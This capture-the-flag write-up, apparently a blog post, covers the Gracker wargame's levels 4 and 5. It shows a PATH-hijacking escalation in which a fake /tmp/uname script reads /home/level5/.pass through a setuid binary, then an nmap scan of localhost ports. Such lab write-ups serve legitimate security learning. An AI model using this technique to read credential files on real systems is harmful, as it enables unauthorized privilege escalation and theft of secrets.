 ```
^C%                                                                                                                  level4@gracker:~$ chmod 777 /tmp/uname
level4@gracker:~$ PATH=/tmp /matrix/level4/level4
Zero Cool - Linux Information Gathering Tool v1.2

[*] Get system information:
sh: 1: uname: Permission denied

[*] Find users available on this system:
sh: 1: cut: Permission denied

[*] Search for setuid binaries:
ls
cat
level4@gracker:~$ nano /tmp/uname               
level4@gracker:~$ PATH=/tmp /matrix/level4/level4
Zero Cool - Linux Information Gathering Tool v1.2

[*] Get system information:
sh: 1: uname: Permission denied

[*] Find users available on this system:
sh: 1: cut: Permission denied

[*] Search for setuid binaries:
FLAG
level4@gracker:~$ cat /tmp/uname
#!/bin/sh
/bin/cat /home/level5/.pass
```

# Gracker Level 5

It wants us to run an nmap scan. This is great! I remember how to do this.

```
level5@gracker:~$ python -c "print int(0x5ad)"
1453
level5@gracker:~$ python -c "print int(0xdad)"
3501
level5@gracker:~$ nmap -sS -sC -sV -p1453-3501 localhost
You requested a scan type which requires root privileges.
QUITTING!
level5@gracker:~$ nmap -sC -sV -p1453-3501 localhost
[TOOK TOO LONG]
level5@gracker:~$ nmap -p1453-3501 127.0.0.1    

Starting Nmap 6.47 ( http://nmap.org ) at 2022-12-30 18:19 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (1.00s latency).
Not shown: 2048 closed ports
PORT     STATE SERVICE
2989/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 98.53 seconds
```
